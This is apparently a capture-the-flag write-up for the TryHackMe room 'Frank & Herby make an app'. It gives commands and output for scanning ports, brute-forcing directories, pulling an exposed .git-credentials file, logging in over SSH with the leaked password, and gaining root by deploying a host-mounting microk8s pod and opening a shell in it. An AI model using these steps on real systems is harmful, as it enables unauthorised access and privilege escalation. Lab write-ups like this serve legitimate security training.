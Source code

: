 # Frank & Herby make an app|Writeup-TryHackMe|medium
 # this is a solution for Frank and Herby try again.... room on <font color="&#x1F4D8;">https://tryhackme.com</font>   
 # URl: <font color="&#x1F4D8;"> https://tryhackme.com/room/frankandherby </font>

# Task 1 "Frank & Herb Make an App!"
 # 1st question
 The question begins asking us what port with a web application listening is open on the machine.
 to know that we have to  run **rustscan** on the **machine_ip**  then we get a list of open ports 
 write the next line in your terminal to create the scan "rustscan -a machine_ip --ulimit 3000"
 **after we create the scan we found that:** 
````

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10255/tcp open  http     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
25000/tcp open  ssl/http Gunicorn 19.7.1
31337/tcp open  http     nginx 1.21.3
32000/tcp open  unknown 

````
**If we look carefully there is only one port that fits what we need. Alternatively you can visit each of them in the browser until you find the one that connects.**

 # 2nd question
now we  will use gobuster to discover what other directories there  using the port number from 1st question
```` gobuster -e -u  $machine_ip:31337 -w -w /usr/share/wordlists/dirb/common.txt ````
**the output for that scan is:** 
````
http://machine_ip/.git-credentials
http://machine_ip/assets
http://machine_ip/css
http://machine_ip/index.html
http://machine_ip/vendor

````
the answer will be the first directory :**.git-credentials**
#3rd question
after that we will curl on the first ip address:````curl $machine_ip:31337/.git-credentials````
the output is ````http://frank:PASSWORD@192.168.100.50````
and these credentials allow us  access through SSH using this coomand ````ssh frank@$machine_ip````
after we access to the machine we will use the ````ls```` command to list all files in the machine 
after that  we have found two folders and one text file  **the flag will be in the text file**
# 4th question
 in this question we have to access using root 
 we may try to run ````sudo -l```` to see what frank can run as ````sudo```` with.
 unfortunately, frank is neither in the sudoers file nor the ````sudo```` group.
 but after some search i noticed that the trick of this room is There is microk8s on the machine used to deploy the app.
 now we  can list all the relevant deployments, pods etc. ````with microk8s kubectl get all````
````
frank@dev-01:~$ microk8s kubectl get pods
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          11d
````
So we've found a running pod, but this doesn't give us the image definition used to build its containers - this requires another kubectl command to output the pod's configuration in yaml, revealing an image available at a local registry running on localhost:32000 :
````
frank@dev-01:~$ microk8s kubectl get pod nginx-deployment-7b548976fd-77v4r -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/podIP: 10.1.133.238/32
...snip...
spec:
  containers:
  - image: localhost:32000/bsnginx
    imagePullPolicy: Always
````
We can use this image in a revised version of the pod configuration file included above. Start by changing the "image" key of this file from "ubuntu:latest" to "localhost:32000/bsnginx" and save the resulting file as "exploit.yaml". We can now follow the exploit POC, applying the new pod definition to the cluster :
````
frank@dev-01:~$ microk8s kubectl apply -f exploit.yaml
pod/hostmount created
````
and now  create a shell session in the new container
````
frank@dev-01:~$ microk8s kubectl exec -it hostmount /bin/bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@hostmount:/# ls /opt/root/root
root.txt  snap
````
The root flag is at /opt/root/root/root.txt (i.e. /root/root.txt on the host machine).
